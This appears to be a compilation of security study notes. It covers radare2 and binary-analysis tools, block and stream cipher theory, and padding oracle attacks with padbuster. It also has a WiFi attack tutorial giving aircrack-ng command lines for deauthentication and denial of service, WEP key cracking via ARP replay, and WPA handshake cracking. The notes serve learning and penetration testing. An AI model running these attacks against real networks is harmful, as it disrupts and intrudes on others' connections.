| fs flagspace select flagspace or create if it doesn't exist
| fs-flagspace remove flagspace
| fs-* remove all flagspaces
| fs+foo push previous flagspace and set
| fs- pop to the previous flagspace
| fs-. remove the current flagspace
| fsq list flagspaces in quiet mode
| fsm [addr] move flags at given address to the current flagspace
| fss display flagspaces stack
| fss* display flagspaces stack in r2 commands
| fssj display flagspaces stack in JSON
| fsr newname rename selected flagspace
Seeking
Moving around the file requires the usage of the seek (s) command in order to change the offset at which we are. It takes one argument which is a mathematical expression capable of containing flag names, parenthesis, addition, substraction, multiplication of immediates of contents of memory using brackets. Examples:
[0x00000000]> s 0x10
[0x00000010]> s+4
[0x00000014]> s-
[0x00000010]> s+
[0x00000014]>
Here is a list of additional seeking commands:
[0x00000000]> s?
Usage: s # Help for the seek commands. See ?\\( ? to see all variables
| s Print current address
| s.hexoff Seek honoring a base from core->offset
| s:pad Print current address with N padded zeros (defaults to 8)
| s addr Seek to address
| s- Undo seek
| s-* Reset undo seek history
| s- n Seek n bytes backward
| s--[n] Seek blocksize bytes backward (/=n)
| s+ Redo seek
| s+ n Seek n bytes forward
| s++[n] Seek blocksize bytes forward (/=n)
| s[j*=!] List undo seek history (JSON, =list, *r2, !=names, s==)
| s/ DATA Search for next occurrence of 'DATA'
| s/x 9091 Search for next occurrence of \x90\x91
| sa [[+-]a] [asz] Seek asz (or bsize) aligned to addr
| sb Seek aligned to bb start
| sC[?] string Seek to comment matching given string
| sf Seek to next function (f->addr+f->size)
| sf function Seek to address of specified function
| sf. Seek to the beginning of current function
| sg/sG Seek begin (sg) or end (sG) of section or file
| sl[?] [+-]line Seek to line
| sn/sp ([nkey]) Seek to next/prev location, as specified by scr.nkey
| so [N] Seek to N next opcode(s)
| sr pc Seek to register
| ss Seek silently (without adding an entry to the seek history)
> 3s++ ; 3 times block-seeking
> s 10+0x80 ; seek at 0x80+10
Strings
/ <string>- search the bytes of the binary for a specific string
/w <string>- search for wide character strings like Unicode symbols
Introduction
Source code gets compiled to assembly and then assembly gets compiled to machine code. Assembly has a direct one-to-one mapping of its instructions to those in machine language. This makes assembly the only possible way to disambiguously take a look at what a program does. Assembly is essentially a human readable version of machine code.
Intel vs AT&T Syntax
There are two general syntax formats for writing Assembly - Intel and AT&T. I will be using Intel throughout my notes, but here is a list of common differences between the two because you never know which one you might have to read:
Intel
- Instruction format -
operation destination, source - Instruction sufixes - none
- Register & Immediate value prefixes - none
- Dereferencing - done with
[]
AT&T
- Instruction format -
operation source, destination - Mnemonic sufixes - mnemonics have a suffix depending on the size of their operands -
bfor byte,wfor word,llongmovb %bl,%al movw %bx,%ax movl %ebx,%eax movl (%ebx),%eax - Register & Immediate value prefixes - registers are prefixed with
%and immediate values with\\( - Dereferencing - done with
()
Reverse Engineering with objdump
objdump is a program for displaying information from binaries. It can be used for showing different aspects of the object file. By default, it generates AT&T assembly, but you can change this with the -M intel option.
-
disassemble everything -
-Dobjdump -D <binary> -M intel
-
display sections headers -
-hobjdump -h <binary>
-
print private headers -
-pobjdump -p <binary>Note the flags on the private headers. If the
xflag is on, then that section is executable.
Tracing syscalls with strace
strace is a program for tracing what system calls a binary issues during runtime. It can be used with the following basic syntax:
strace <binary>
Note, that if the binary is in your current working directory, you will need to prepend ./ to its name because strace works with processes and not the actual stored binary.

Tracing library calls with ltrace
ltrace is rather similar to strace, but instead of system calls, it traces calls to functions in certain libraries. The syntax for it isn't unlike that for strace.
ltrace <binary>
Note, that if the binary is in your current working directory, you will need to prepend ./ to its name because ltrace works with processes and not the actual stored binary.

Introduction
WiFi has become an integral part of our lives.
Many wireless attack will require a wireless adapter which supports monitor mode and packet injection.
Monitor Mode
Monitor mode disconnects a wireless interface from any network that it may be connected to and allows the device to listen to all traffic in the area at the same, from all access points and all clients.
Since certain processes may interfere with the wireless device, they should be checked for before putting the wireless card into monitor mode. This can be done via the following command:
sudo airmon-ng check

airmon-ng is also capable of stopping these processes if kill is added to the above command:
sudo airmon-ng check kill

A list of the available network devices may be obtained through iwconfig:

In order to put a wireless card into monitor mode, the following command may be used:
sudo airmon-ng start <dev>

Alternatively, the following sequence of commands may be used:
sudo ifconfig <dev> down
sudo iwconfig <dev> mode monitor
sudo ifconfig <dev> up
When putting a wireless device into monitor mode, its name may be altered, for example by appending mon. It is useful to again list the network devices connected to the system to check if any names have been changed.

Once you are done, you should disable monitor mode:
sudo airmon-ng stop wlan0

Alternatively, ifconfig and iwconfig may be also be used to disable monitor mode:
sudo ifconfig <dev> down
sudo iwconfig <dev> mode managed
sudo ifconfig <dev> up
Finally, you should restart the process killed by airmon-ng:
sudo systemctl start NetworkManager
Capturing WiFi Traffic
WiFi hacking relies heavily on the traffic captured from the air. A very useful tool which can accomplish this task is airodump-ng. Its basic syntax looks like this:
sudo airodump-ng <dev>
By default, it monitors all networks in the area by hopping around channels.

If 5GHz WiFi is supported by your adapter, you can add --band a to the command to listen for 5GHz networks:
sudo airodump-ng --band a <dev>

Let's decipher the output. The first table, which airodump-ng displays, describes all the networks that are seen by the wireless adapter.
| Column | Description |
|---|---|
BSSID | The MAC address of the access point. |
PWR | The signal level reported by the wireless adapter. Strong signals are around -40, average ones ~ -55, and a weak signal begins at -70. If it is equal to -1 everywhere, then signal level reporting is not supported by the driver. If it is -1 for some APs, then that access point is out of range but at least one frame was able to be sent to it. |
Beacons | The number of beacon frames sent by the AP. Through these packets the AP announces its presence to the devices in the area. They are typically sent about 10 times per second at the lowest rate (1M) and can be picked up from afar. |
#Data | The number of captured data packets (if WEP, unique IV count), including data broadcast packets. |
#/s | The number of data packets per second for the last 10 seconds. |
CH | The channel number (as reported by the beacon frames). It is sometimes possible to capture packets from different channels due to interference or channel overlap, even when airodump-ng is not hopping. |
MB | The maximum speed supported by the AP. If MB = 11, it's 802.11b, if MB = 22 it's 802.11b+ and up to 54 are 802.11g. Higher values are either 802.11n or 802.11ac. A dot after this value indicates support for a short preamble, an e indicates that the network has QoS enabled. |
ENC | The encryption algorithm in use. OPN means no encryption, WEP indicates static or dynamic WEP, "WEP?" = WEP or higher (not enough data to choose between WEP and WPA/WPA2), and WPA, WPA2 or WPA3 if TKIP or CCMP is present (WPA3 with TKIP allows WPA or WPA2 association, pure WPA3 only allows CCMP). OWE is for Opportunistic Wireless Encryption, or Enhanced Open. |
CIPHER | The detected cipher - CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Typically, TKIP is used with WPA and CCMP with WPA2. WEP40 is displayed when the key index is greater than 0. The index can be 0-3 for 40bit and should be 0 for 104 bit. |
AUTH | The authentication protocol in use - MGT (WPA/WPA2 using a separate authentication server), SKA (shared key for WEP), PSK (pre-shared key for WPA/WPA2), or OPN (open for WEP). |
ESSID | The display name (SSID) of the network. If it has the form of <length: x>, then the SSID is hidden and the x represents its length (airodump-ng is capable of some analysis of hidden SSIDs). If x is 0 or 1, then the real length is indeterminable. |
The second table describes all the clients which are seen by the wireless adapter. A client here means any device that is WiFi-enabled, but is not an access point - this can be a phone, a PC, a laptop, etc.
| Column | Description |
|---|---|
STATION | The MAC address of the client. |
BSSID | The MAC address of the AP that the client is connected to. If the client is not associated with any network, then this will be (not associated). |
PWR | The signal level reported by the wireless adapter (see the above table). If this is -1 everywhere, then signal level reporting is likely unsupported. If this is -1, then the device is out for reach for your wireless adapter, but a frame sent to it by the AP was detected. |
Rate | The client's last seen reception rate followed by its last seen transmission rate (both in Mbps). An e is appended to each rate if QoS is enabled on the network. |
Lost | The number of data packets lost from the client over the last 10 seconds. Calculated based on the sequence numbers. |
Frames | The number of data packets sent by the client. |
Notes | Any additional information about the client, such as captured EAPOL or PMKID. |
Probes | The ESSIDs probed by the client. These are the networks the client is trying to connect to if it is not currently connected. |
airodump-ng can be locked onto a channel or a set of channels with the following commands:
sudo airodump-ng -c <channel> <dev>
sudo airodump-ng -c <channel1>,<channel2>,... <dev>
Moreover, it can be locked to a specific AP by providing it with a BSSID and a channel:
sudo airodump-ng --bssid <BSSID> -c <channel> <dev>

It is often times useful to write the data captured to a file, which can be done with the --write argument:
sudo airodump-ng --write <filename>
airodump-ng will generate a bunch of files based on the given filename:

Introduction
A deauthentication, or deauth, attack injects deathentication frames in order to disconnect a target from a network. It works on pretty much any network and can be extremely useful in many other attacks in order to force a handshake, since most devices automatically try to connect to any networks in the area that they recognise. Moreover, a deauth attack can serve as a DOS attack, temporarily precluding a particular client from connecting to a network.
aireplay-ng can be to disconnect a device already connected to the network:
aireplay-ng --deauth <count> -a <access point> -c <client> -D <dev>
--deauthspecifies the amount of deauth frames to send. If this is 0, thenaireplay-ngwill produce a continuous stream of deauthentication packets, resulting in a DOS attack.-ais the MAC address (BSSID) of the network you want to attack.-cis the MAC address (BSSID) of the device you want to disconnect from the network. If this is not specified,aireplay-ngwill disconnect all devices connected to the network.-Dwill ensure that the deauth packets are forcibly sent. The attack may not work if this option is not specified, sinceaireplay-ngwill look for the target network in all channels and may not find it in time. This can be omitted if the wireless adapter is already locked on a specific channel by, for example,airodump-ngwhen listening to a particular network and channel.<dev>is the wireless adapter you wish to use for the attack.

If the target is not disconnected on the first try, you can always send more deauthentication frames!
Introduction
The standard was introduced in 1997 and its goal was to provide the same level of privacy to wireless networks that wired ones had. Unfortunately, a series of severe flaws quickly made it obsolete and it was superseded by WPA and WPA2. While rare, it is still possible to find networks today which use WEP.
As a corollary of the IV's small size - only 24 bits - IVs will have to eventually be repeated. On average, this occurs every 6 000 frames. Due to the inner structure of WEP, once an attacker gets their hands on two ciphertexts (encrypted packets), \( c_1 \) and \( c_2 \), which were encrypted with the same IV (the key is already the same for both of them), then they know \( c_1 \oplus c_2 \). Now, the adversary can begin brute-forcing the corresponding plaintexts, \( p_1 \) and \( p_2 \). Typically, there would be a large number of possible \( p_1 \)s and \( p_2 \)s, but it is known that they must look like packets which greatly reduces the possibilities. This is narrowed down even further when performing a fake authentication attack since the packets captured with identical IVs are likely ARP responses from the AP which have an even easier form to predict! Since \( c_1 \oplus c_2 = p_1 \oplus p_2 \), with the correct \( p_1 \) and \( p_2 \) brute-forced, the keystream used to encrypt them can be calculated: \( c_1 \oplus p_1 = k \). Through the use of a few more techniques such as Fluhrer, Mantin, and Shamir (FMS) attacks or PWT, the original key can be retrieved.
Capturing the Traffic
The only thing that's really required for this attack is enough captured packets with as many IVs as possible. The higher the number of frames, the better the odds that a pair of them was encrypted with the same IV.
airodump-ng can be used to listen for WEP networks with the following syntax.
sudo airodump-ng --encrypt WEP <dev>

Once the network to be attacked has been identified, it can be specifically monitored with airodump-ng. You should now also specify a capture file:
sudo airodump-ng --encrypt WEP --bssid <BSSID> -c <channel> -w <filename> <dev>

Now, you will need to be patient in order to gather a large amount of frames, typically in the range of 50K - 200K depending on whether the key is 64 or 128 bits in length. On a calm network, however, this process may take a very long time. Luckily, it can be sped up using a fake authentication attack and ARP packet replay.
Fake Authentication Attack
The ultimate goal of this attack is to enable an adversary to force the AP to send out more and more packets, typically through ARP replay, so that more IVs can be captured. However, in order to elicit any proper response with an IV from the access point, the attacker must be authenticated and and their MAC address needs to be associated with it. Otherwise, the AP simply replies with a deauth frame in cleartext to any packets sent by the adversary, which generates no IVs.
WEP supports two types of authentication - Open System Authentication (OSA) and Shared Key Authentication.
On the other hand, now that they are associated with the network, they can elicit responses with IVs from the AP.
When OSA is enabled, you can use the following command to authenticate with the AP:
sudo aireplay-ng -1 <rate> -e <ESSID> -a <access point MAC> -h <MAC of your wireless adapter> <dev>
-1denotes fake authentication.<rate>- is the rate at which to attempt reassociation. 0 means a continuous stream of attempts until success.-e- the ESSID of the target network.-a- the BSSID of the target network.-h- the MAC address of your wireless adapter.
Note, airodump-ng should be locked to the target network and its channel, so as to prevent channel hopping.


Now that the client is associated with the network, they can elicit responses with IVs from the AP and can proceed to ARP relaying.
If OSA is not allowed by the target network, then the process is a bit more complicated, but still not secure.
If you are able to sniff on the network, you can just capture the shared key handshake when another client authenticates to the AP (either naturally or by dint of a deauth attack. Since you captured the plaintext challenge, \( p_1 \) from the AP and the correctly encrypted response challenge from the legitimate client, \( c_1 \), you can obtain the keystream \( k = p_1 \oplus c_1 \) and use it to correctly encrypt the challenge you receive when attempting to connect to the AP yourself.
Faking shared key authentication requires a PRGA file containing the SKA (shared key authentication) handshake. To acquire it, all you need to do is sniff on the network and either wait for a client to connect to it or deauthenticate an existing one to force them to reconnect. When the handshake has been captured, SKA will appear beneath the AUTH column in airodump-ng.
sudo airodump-ng --encrypt WEP --bssid <BSSID> -c <channel> -w <filename> <dev>

The .xor file is the required PRGA file which can now be used with aireplay-ng to do fake authentication:
sudo aireplay-ng -1 <rate> -e <ESSID> -a <access point MAC> -h <MAC of your wireless adapter> -y <PRGA file> <dev>

You can now proceed with ARP replaying in order to generate IVs.
ARP Replay Attack
An ARP replay attack is one of the easiest ways to generate new IVs. aireplay-ng will listen for ARP packets on the network and once it gets its hands on at least one packet, it is going to save it into a capture file and continuously resend it to the AP. While the ARP packet itself is not going to change, the responses it will beget from the access point will all generate new IVs. At this point, airodump-ng should also be running in order to capture the responses and their IVs.
Since some ARP packets are typically sent when a device connects to a network, you can using a deauth attack to speed up the process of gathering samples.
The basic syntax for an ARP replay is the following:
sudo aireplay-ng -3 -b <BSSID of the target network> -h <MAC address of your wireless adapter> <dev>
A capture file with ARP packets from a previous ARP relay attack may be optionally specified with -r.

Once run, the Frames and Data count in airodump-ng should begin rapidly increasing, while the response packets with the IVs are captured.

Cracking the Key
Once you have a sufficient number of IVs, you can use the .cap file generated by airodump to crack the key:
aircrack-ng <filename>

If the key isn't found, then that means that no identical IVs were captured and the process needs to be repeated.
Introduction
When connecting a device to a WPA WiFi network, the device and the access point go through the process of a 4-way handshake. During this time, the hash of the password is broadcasted and if we can capture this hash, we can also attempt to crack it.
Capturing the Handshake
You will first need to put your adapter into monitor mode:
sudo airmon-ng start <dev>
Next, you should listen for the available access points by using
sudo airodump-ng <dev>
Once you have identified the network you want to attack, you can make airodump specifically listening for it by providing a MAC address (--bssid) and a channel (-c). You will also want to write the capture to a file (--write <filename>), so that it may later be cracked with aircrack-ng:
sudo airodump-ng --bssid 50:D4:F7:95:CE:13 -c 11 --write PwnMe
Now, airodump is listening for the specified access point. Under the STATION tab, you can see all devices which are connected to the network.
You now have to wait for someone new to connect to the target network or to reconnect in order to capture the handshake. If you are too impatient, however, there is a way to speed this process up. A deauth attack may be used, giving us the handshake:

The hash can now be cracked using aircrack-ng:
aircrack-ng <capture> -w <wordlist>

Boom! We successfully cracked the very difficult-to-guess password of... password.
Remember to stop your adapter's monitor mode or you will not be able to use it normally:
Introduction
Cryptography is the study and application of techniques for secure communication in the presence of adversarial behaviour. It is concerned with the confidentiality of data. All cryptography is built around the use of ciphers or, in modern parlance, encryption schemes.
Cryptrography is typically divided into two fields - symmetric (private-key) cryptography and asymmetric (public-key) cryptography - and depending on which field we are in, an encryption scheme will look differently, but the basic terminology is usually shared.
Furthermore, you might hear the terms "classical" and "modern" cryptography being tossed around. The difference lies in the fact that the former does not make use of today's computational resources and is therefore unable to keep up with modern cryptography. Moreover, modern cryptography has its roots in mathematics and is subject to much more scrutiny and mathematical analysis. It is built around certain principles.
Attack Models
- Ciphertext-only attack (COA) - this is the most basic scenario. The adversary has access to a set of ciphertexts and attempts to glean whatever they can about the underlying plaintexts, but are unable to perform any encryption or decryption queries themselves.
- Known plaintext attack (KPA) - here, the attacker is provided with a set of plaintext-ciphertext pairs generated with some key. Their ultimate goal is to find out information about the plaintext of another ciphertext generated with the same key. Once again, the attacker is not capable of performing any encryption or decryption queries themselves.
- Chosen plaintext attack (CPA) - this model is equivalent to the previous one, however, the attacker is capable of choosing specifically which plaintext-ciphertext pairs they have access to. In other words, the attacker can perform encryption queries as they will, but have no access to the key.
- Chosen ciphertext attack (CCA) - in this model, the adversary is capable of both encrypting and decrypting any message they like, but lack the key. This scenario is most useful when it is not the output that is important but rather the key.
Introduction
A block cipher is an encryption scheme which works on plaintexts of a fixed size. Furthermore, it is usually paired with a mode of operation. The size is typically small, such as 64 or 128 bits, although, it is possible to have smaller or larger block sizes. Large block sizes have a lofty memory footprint and are less efficient. It is, however, paramount that the block size is also not too small lest the cipher becomes vulnerable to a codebook attack. This attack is actuated by the construction of a look-up table which contains all possible plaintext-ciphertext pairs generated by a given block cipher and can be easily used to look up a plaintext given its ciphertext. For example, a block size of 16 requires only \( 2^{16} \times 2^{16} = 2^{20} \) bits of memory, which is equal to 128 kilobytes. With the 32-bit blocks, the memory needs grow to 16 gigabytes which is still feasible. However, with a block size of 64 bits, the memory required shoots up to \( 2^{70} \) bits. Good luck storing that.
Anatomy of a Block Cipher
Block ciphers represent a repetition of rounds, which are short and simple sequences of operation. The strength of a block cipher lies not in its complexity, but rather its repetitiveness. The ciphertext of a given block is the sequence of rounds applied to the plaintext: \( c = R_3(R_2(R_1(p, {k^{\prime}}), {k^{\prime\prime}}),{k^{\prime\prime\prime}}) \). In addition to the output of the previous round, each round also takes in a round key. The round keys \( k^{\prime},k^{\prime\prime},k^{\prime\prime\prime},... \) are generated from the master key \( k \) through an algorithm bearing the name key schedule. The round functions \( R_1, R_2,... \) are usually the same algorithm which why it is crucial that they are provided with different round keys in order to generate different outputs.
Slide Attacks and Round Keys
Repeating round keys open room for slide attacks. These look for plaintext-ciphertext pairs \( (p_1, c_1) \) and \( (p_2, c_2) \) where \( p_2 = R(p_1) \). Since both the round algorithm and key are identical, then if \( p_2 = R(p_1) \) implies that \( c_2 = R(c_1) \). This relationship will hold true no matter how many repetitions of the round the plaintext goes through.
Introduction
A non-conforming message is a message whose length is not evenly divisible by the block size. For example, you might have a message of size 18 bytes and a block size of 16 bytes. In this case, there are two main ways to resolve the issue.
Message Padding
Padding allows for the encryption of messages of arbitrary lengths, even ones which are shorter than a single block. It is used to expand a message in order to fill a complete block by appending bytes to the plaintext and it is a highly standardised procedure.
The most common padding algorithm is described by PKCS#7 in RFC 5652.
Given a block size, \( n \), and a message of length \( m \), the message is padded with \( n-m \) number of bytes of value \( n-m \). A concrete example with 16-byte blocks is the following:
- If there's is one byte left until the message length is divisible by 16 - for example, it is 17 or 33 bytes long - then pad the message with 15 bytes
0x0f(15 in decimal). - If there are two bytes left until the message length is divisible by 16 - for example, it is 18 or 34 bytes long - then pad the message with 14 bytes
0x0e(14 in decimal). - If there are three bytes left until the message length is divisible by 16, then pad the message with 13 bytes
0x0d(13 in decimal), and so on.
If the message length is already divisible by the block size, then an additional block containing bytes with value equal to the block size is appended in order to signify to the decryption algorithm whether the last block is part of the plaintext or just padding. In the above example, if the message length was already divisible by 16, then another 16 bytes of value 0x10 would have been appended to it.
Decryption is fairly simple and works by first deciphering all the unpadded blocks. Subsequently, the last block is decrypted and the last bytes of the resulting plaintext are checked for conformity with the aforementioned scheme. If such is not found, the message is rejected. Otherwise, the padding bytes are stripped before returning the plaintext.
Note that if not implemented properly, padding may be vulnerable to Padding Oracle Attacks.
Ciphertext Stealing
Ciphertext stealing is another technique for encrypting messages of arbitrary length. Whilst more complex, it has several benefits:
- Plaintexts are allowed to be of any bit length and are not restrained to bytes - it is possible to encrypt a message which is 155 bits long.
- Ciphertext have the same length as plaintexts.
In CBC mode, ciphertext stealing extends the last incomplete plaintext block by taking bits from the previous ciphertext block, thus splitting the penultimate ciphertext block. Once the last plaintext block is complete, it is encrypted and its ciphertext is placed as the penultimate ciphertext block. Now, the first bits (the ones which were not appended) of the broken ciphertext block are placed at the end as a reduced ciphertext block, meaning that the last ciphertext block has a length less than the block size.

Introduction
It's all well and good with block ciphers when encrypting messages whose length matches the block size, but what happens if we want to encrypt a plaintext that is longer than a single block? Well, here comes the use of a mode of operation. If the message is longer than the block size, then it must be split into blocks of the desired size. From then on, the mode of operation describes how each of the blocks is encrypted and how the resulting ciphertexts are combined into the final output.
The Electronic Codebook (ECB) Mode
This is the simplest mode of operation you could think of. It encrypts each plaintext block independently and then just concatenates the resulting ciphertexts.

This mode is abominably insecure, since it is pattern preserving. While patterns inside each block are destroyed (a proper encryption algorithm should take care of that), patterns between blocks are ultimately preserved. To illustrate, let's say that you want to encrypt the number 19281267. If you have 4-bit blocks, you would encrypt the blocks 1928 and 1267. Suppose, that these get encrypted to 4765 and 4104. If you check, subtracting the second plaintext block from the first yields the same result as subtracting the second ciphertext from the first, namely 661. An infamous example of this is the ECB penguin. Encrypting an image with ECB will yield the same image with merely a distorted colour scheme.

The Cipher Block Chaining (CBC) Mode
Cipher block chaining resembles ECB, but it actually incorporates the previous block into the encryption of the current one. Instead of encrypting the \( i \)th block \( p_i \) as \( c_i = Enc_k(p_i) \), cipher block chaining XORs the plaintext with the previous ciphertext: \( c_i = Enc_k(p_i \bigoplus c_{i-1}) \). The first plaintext is XOR-ed with a random value called an initialisation vector (IV).

Since each consecutive block depends on the previous one, patterns between blocks are destroyed. Furthermore, if the IV is different each time, two identical plaintexts will produce disparate ciphertexts when encrypted. Note, that for decryption, the IV needs to be known. It is also interesting to mention that CBC decryption can be much faster than encryption due to parallelism. When encrypting, each new block needs to wait for the previous one to be encrypted in order to get its ciphertext, however, with decryption all ciphertexts are already known, so it can optimised on multiple threads.
The Counter Mode (CTR)
The Counter mode is a bit different to the ones described above. It turns a block cipher into a stream cipher - in fact, it doesn't even encrypt the blocks themselves! This mode is comprised of an IV, often in this case called a nonce, and a counter. The counter may be any function which is guaranteed to generate a sequence which will not repeat for a long time. That being said, it is still very common to just use a simple increment-by-one counter.
The way that the CTR mode works is by taking the nonce and the counter for the current block (the counter is incremented for each block) and combining them together. If the nonce is random, it may be combined with the counter by means of any invertible operation such as addition, concatenation, or XOR-ing. Should that not be the case, then the nonce and the counter should be concatenated, since simply adding or XOR-ing them would break the security under a chosen plaintext attack, since an attacker may be able to manipulate the entire nonce–counter pair to cause a collision. Once they have control over the nonce-counter pair and plaintext, XOR-ing the ciphertext with the plaintext would produce a value that can be XOR-ed with the other block sharing the same nonce-counter pair in order to decrypt it.
After this, the nonce-counter pair is encrypted with the key and then XOR-ed with the plaintext block in order to produce the ciphertext.

It is paramount that the nonce is unique between messages, since when encrypting two plaintexts with the same nonce-counter stream - \( c_1 = p_1 \bigoplus S \) and \( c_2 = p_2 \bigoplus S \), then \( c_1 \bigoplus c_2 \) reveals \( p_1 \bigoplus p_2 \).
Furthermore, a random nonce is sufficient only if it is long enough. Given a nonce of length \( n \) bits, it is likely that after \( 2^{n/2} \) encryptions collisions will start occurring. Therefore, a 64-bit nonce is abominable due to the fact that collisions will commence after approximately \( 2^{32} \) encryptions, which is a very low number.
Decryption works by XOR-ing the ciphertext with the appropriate nonce-counter pair.
A particular benefit of the CTR mode is that it is parallelisable and can thus execute rather quickly. You can even begin encryption before having the message to encrypt by selecting a nonce and computing the nonce-counter stream which will be later XOR-ed with the plaintext.
Introduction
A padding oracle attack abuses padding validation information in order to decrypt an arbitrary message. In order for it to work, it requires a padding oracle. A padding oracle is any system which, given a ciphertext, behaves differently depending on whether the decrypted plaintext has valid padding or not. For the sake of simplicity, you can think of it as a sending an arbitrary ciphertext to a server and it returning "Success" when the corresponding plaintext has valid padding, and spitting out "Failure" otherwise. Note that the ciphertexts you query the oracle with need not have meaningful plaintexts behind them and you will not even be generating them by encryption, but rather crafting them in a custom manner in order to exploit the information from the oracle.
How It Works
Let's remind ourselves of how CBC decryption works by taking a simplified look at the last two blocks:

The last ciphertext \( C_2 \) is decrypted with the key \( k \) to an intermediate block \( I_2 \). This intermediate state is then XOR-ed with the penultimate ciphertext block, \( C_1 \), in order to retrieve the plaintext block \( P_2 \). Note, all block here are made from bytes.
Now, let's imagine a second scenario, where \( C_2 \) is kept the same, be we purposefully alter the last byte of \( C_1 \). After this modification, we send the ciphertext to the oracle. Our goal here is to obtain a "success" from it, meaning that it has managed to decrypt the ciphertext we sent it to a plaintext with a valid padding. Since we are only altering the last byte for now, we want to generate a ciphertext which when decrypted will result in a plaintext, whose last byte is 0x01.

Since, we didn't change \( C_2 \), the intermediate \( x_1 \) also remains the same. Additionally, \( y_1 \) is a single byte so it can only take a total of 256 values. This makes it rather easy to brute-force what \( y_1 \) should be, simply by sending queries at max 256 queries to the oracle. Once the oracle returns a "Success", we have found the right value for \( y_1 \). We can now simply XOR \( y_1 \) with 0x01 to obtain the value of \( x_1 \), \( x_1 = y_1 \bigoplus \text{0x01} \).
Since \( x_1 \) is the same in both the original and the attack scenario, we can now XOR \( x_1 \) with the original last byte of \( C_1 \) in order to obtain the last byte of the original plaintext! This procedure can be further repeated to obtain the penultimate byte, then the antepenultimate byte and so forth! All that is needed is to find the two bytes at the end of \( C_1 \) that would result in a plaintext ending in 0x0202.

We already know \( x_1 \), so we can obtain the new \( y_1 = x_1 \bigoplus \text{0x02} \). We now only need to brute-force \( y_2 \) with the same technique described above. Once the oracle returns a "Success", we have found the correct value for \( y_2 \) and can obtain \( x_2 = y_2 \bigoplus \text{0x02} \). Going back to the original scenario, we compute the penultimate byte of the plaintext by XOR-ing the penultimate byte of the unaltered \( C_1 \) with the value of \( x_2 \). Rinse and repeat and you have decrypted the entire plaintext! Note, you will have to reset the procedure from 0x01 with each new block.
Reverse Padding Oracle Attack
Apart from allowing you to decrypt a ciphertext, an oracle padding vulnerability can allow you to encrypt (almost) any plaintext. This could be useful for example when you need to encrypt a plaintext cookie to a ciphertext in order to use it, but you don't have the key.
First of all you will need to choose the plaintext you want to encrypt, \( P_n \) and pad it appropriately. Then generate a random block of data. This will be the last ciphertext block \( C_n \). Next, we set \( C_{n-1} \) to be a block of 0s and perform a padding oracle attack the usual way, until we obtain the value of \( C_{n-1} \) for which \( C_n \) decrypts to a full block of padding (in the case of block size 8 this would be 0x0808080808080808).
We now XOR these together to obtain \( I_n = \text{0x0808080808080808} \bigoplus C_{n-1} \). Afterwards, XOR the desired plaintext \( P_n \) with the intermediate state \( I_n \) in order to obtain a new value for \( C_{n-1} \) which will force \( C_n \) to be decrypted to the appropriate plaintext. Repeat this process with the rest of the ciphertext blocks, but now use the ultimately obtained \( C_{n-1} \) instead of the randomly generated \( C_n \), and then the next ultimately obtained \( C_{n-i} \), and... ta-da, you have the ciphertext of your desired plaintext. Unfortunately, unless you have control of the IV, the last block will always decrypt to garbage.
Padding Oracle Attacks with padbuster
padbuster is a tool written in Perl which is designed to automate padding oracle attacks. It is included in Kali Linux, but you can also find it at https://github.com/AonCyberLabs/PadBuster.
Its syntax is fairly simple. You need to first provide it with the URL of the padding oracle, then you need to give it the ciphertext and finally provide it with the block size. Next are any command-line arguments you might wish to use. If you don't provide padbuster with an error string through -error, it will perform response analysis and prompt you to select which response is the error one. For example, I have a padding oracle which displays either "Success!" or "Fail!" on the response page. As you see, though, padbuster's response analysis automatically picked up on that and asked me which response is the error.
You might also need to change the encoding that padbuster uses, depending on the how the padding oracle accepts data. Here, -encoding 1 means that I want the requests to include the malicious ciphertexts representing hex bytes as lowercase ASCII characters. The -noiv flag tells padbuster that the provided ciphertext does NOT include an IV. If you skip it, the first ciphertext block will be treated as the IV and won't be decrypted.

After you give it the correct error response, it will perform the attack and decrypt your ciphertext.

Furthermore, padbuster is capable of encrypting a plaintext by mounting a reverse padding oracle attack. This is done through the -plaintext [plaintext] flag:

Unfortunately, if you don't know the IV, the last block will decrypt to garbage:

Note, in the above screenshot the hex is actually the decrypted version of the ciphertext generated by padbuster.
Introduction
Unlike block ciphers, stream ciphers do not fuse plaintext with key bits. Instead, a stream cipher generates a pseudorandom bits from the key and encrypts the plaintext by XOR-ing it with those bits. The pseudorandom bits are said to construct a keystream. In addition to the key, which is usually 128 or 256 bits, a stream cipher also takes a nonce. The nonce need not be secret but should be unique for every key. Nonce sizes are typically between 64 and 128 bits.

It is paramount that the same key-nonce pair \( k_1 \), \( n_1 \) is not used for the encryption of multiple messages, since you would then have \( c_1 = p_1 \bigoplus ks \) and \( c_2 = p_2 \bigoplus ks \), so if you know \( p_1 \), you could easily determine \( p_2 = c_1 \bigoplus c_2 \bigoplus p_1 \).
Stateful and Counter-Based Stream Ciphers
Stream ciphers can be split into two major categories. Stateful stream ciphers have an internal state which is morphed during the encryption process. The state is first initialised from the key and the nonce. Subsequently, an update function function is invoked which changes the state and produces one or more keystream bits from it.

The other type is counter-based stream ciphers. These produce chunks of keystream bits by taking the key, nonce and a counter which changes at every turn.

Introduction
Hardware-oriented stream ciphers are designed to be run on dedicated hardware. They typically work on the bit-level, since hardware can be custom-tailored to be more efficient with these operations. Almost all hardware stream ciphers are built upon a concept called feedback shift registers (FSRs).
Feedback Shift Registers
An FSR is comprised of a bit array, called a register, which is equipped with an update feedback function, denoted as \( f \), which takes a bit array and produces a single bit based on it. Each update alters the register and produces a single output bit. Given a current register state, \( R_i \), the subsequent state will be this:
$$ R_{i+1} = (R_i << 1) | f(R_i)$$
The current state \( R_i \) is left-shifted by a single position. The bit leaving the register is returned as the output for this update cycle and the bit in the end of the register is filled with \( f(R_i) \). Here, | denotes the OR operation.
For example, suppose you had a feedback function, \( f \) which simply XOR-ed all the bits of the register. Given an initial state, \( 0101 \), you would have \( f(0101) = 0 \bigoplus 1 \bigoplus 0 \bigoplus 1 = 0 \). The new state would thus be \( (0101 << 1)|0 = 1010 \).
Given a feedback function \( f \) and an initial state \( R_0 \), we define the period of the FSR to be the number of updates that the FSR can go through until the new state repeats with one of the previous states, thus forming a cycle. Note, that the period of the FSR will be the same if we substituted \( R_0 \) for any other state which is produced during its cycle and any single state may only belong to a single cycle.
With the above function, \( f \), and state, \( 0101 \), the period would be 6.
Naturally, an FSR with a larger period will produce a more unpredictable output.
Linear Feedback Shift Registers (LFSR)
